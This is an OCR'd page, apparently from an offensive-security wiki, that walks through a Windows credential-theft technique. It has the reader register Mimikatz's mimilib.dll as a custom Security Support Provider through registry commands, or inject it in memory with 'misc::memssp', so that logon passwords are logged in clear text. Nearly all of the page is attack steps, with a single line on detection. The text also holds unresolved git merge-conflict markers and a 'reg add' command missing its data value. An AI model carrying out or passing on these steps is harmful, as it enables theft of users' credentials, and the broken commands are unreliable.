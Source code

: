 # Custom SSP

## Custom SSP

[Learn what is a SSP (Security Support Provider) here.](../authentication-credentials-uac-and-efs.md#security-support-provider-interface-sspi)\
You can create you **own SSP **to **capture** in **clear text **the **credentials **used to access the machine.

#### Mimilib

<<<<<<< HEAD
You can use the `mimilib.dll` binary provided by Mimikatz. **This will log inside a file all the credentials in clear text.**  
Drop the dll in _\*\*_`C:\Windows\System32\`  
=======
You can use the `mimilib.dll` binary provided by Mimikatz. **This will log inside a file all the credentials in clear text.**\
****Drop the dll in** **`C:\Windows\System32\`\
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add `mimilib.dll` to the Security Support Provider list (Security Packages):

```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```

And after a reboot all credentials can be found in clear text in `C:\Windows\System32\kiwissp.log`

#### In memory

You can also inject this in memory directly using Mimikatz (notice that it could be a little bit unstable/not working):

```csharp
privilege::debug
misc::memssp
```

This won't survive reboots.

### Mitigation

Event ID 4657 - Audit creation/change of `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`
